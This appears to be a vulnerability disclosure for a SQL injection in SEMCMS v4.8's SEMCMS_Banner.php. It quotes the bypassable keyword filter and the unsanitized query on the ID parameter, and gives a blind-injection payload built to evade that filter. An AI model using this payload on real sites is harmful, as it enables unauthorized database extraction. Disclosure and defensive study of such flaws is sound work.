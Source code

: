 #  Semcms v4.8 SEMCMS_Banner.php SQL Injection

###  Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

```
v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```

###  Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 backend. The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Banner.php parameters ID and lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.

###  Vulnerability analysis

filter function：

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 

```

The vulnerability exists on line 32 of SEMCMS_Banner.php:

![image-20240325125850992](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325125850992.png)

```php
<?php
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_banner WHERE ID=".$_GET["ID"]));
 
?>
```



The vulnerability exists on line 69 of SEMCMS_Banner.php:

![image-20240325130124241](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130124241.png)

```
payload:-1 or ascii(substr(database(),1,1)) REGEXP char(94,49,48,57,36)
```

When the condition is true:

It should be noted that you need to add pictures before reproducing, otherwise no picture will be generated on the page no matter what the ID and lgid are equal to.

![图片3](D:\Desktop\images\图片3.png)

![图片4](D:\Desktop\images\图片4.png)



![image-20240325130707386](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130707386.png)

![image-20240325130725854](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130725854.png)